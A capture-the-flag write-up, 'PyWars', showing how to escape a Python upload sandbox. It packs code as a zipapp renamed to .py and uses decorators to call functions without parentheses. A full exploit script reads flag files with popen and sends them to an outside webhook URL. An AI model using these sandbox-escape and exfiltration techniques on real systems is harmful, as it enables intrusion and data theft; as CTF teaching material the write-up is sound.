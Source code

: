 # ♖ PyWars ♖
> Author: 堇姬Naup

## analyze
Go to read source code.
You can upload one python file, it will add `exit()\n` on your upload's file and use `python3 <your upload python file>`.
So if you can bypass code which it add. You will execute any python's code.

Let me look how to bypass.
Read python's document, we will read this
https://docs.python.org/3.14/library/zipapp.html

You can pack your `.py` to `.pyz`
If we add some bytes in front of `zip's magic number`, it still can be execute.
And then pyz can use `python3 script.pyz`.

```
00000000: 504b 0304 1400 0000 0000 9753 7f5a dc1b  PK.........S.Z..
00000010: 5faa 2e02 0000 2e02 0000 0b00 0000 5f5f  _.............__
```
So we write code at `script/__main__.py`, and pack it to pyz.

OK, let me review code.
It have filter, and just upload `.py`
But we can use `script.pyz.py`, it can bypass its filter. And if your upload's file format is `.pyz`, it will be executed no matter how its file extension

And it filter `(` and `)`, we can use python's decorator to bypass it.
For example:
```c
cmd2 = lambda a: "cat /app/flags/flag*"

@popen
@cmd2
class flag:pass
```

This code is `popen("cat /app/flags/flag*")`
No curl or wget, so we use `urllib.request`, and send flag on your server.


## script
run.sh
```sh
python3 -m zipapp script
mv script.pyz script.pyz.py
```

script/\_\_main\_\_.py
```py
from os import popen
from urllib.request import urlopen

token = "TomorinIsCuteAndILovePython" 
url = "https://webhook.site/111d99e4-8095-4b6a-bf04-e4a79209bce2/?flag="

cmd2 = lambda a: "cat /app/flags/flag*"
func2 = lambda f: [x[:-1] for x in f][0]

@func2
@popen
@cmd2
class flag:pass

flagurl = url + flag
urls = lambda f: flagurl

@urlopen
@urls
class requestf:pass
```
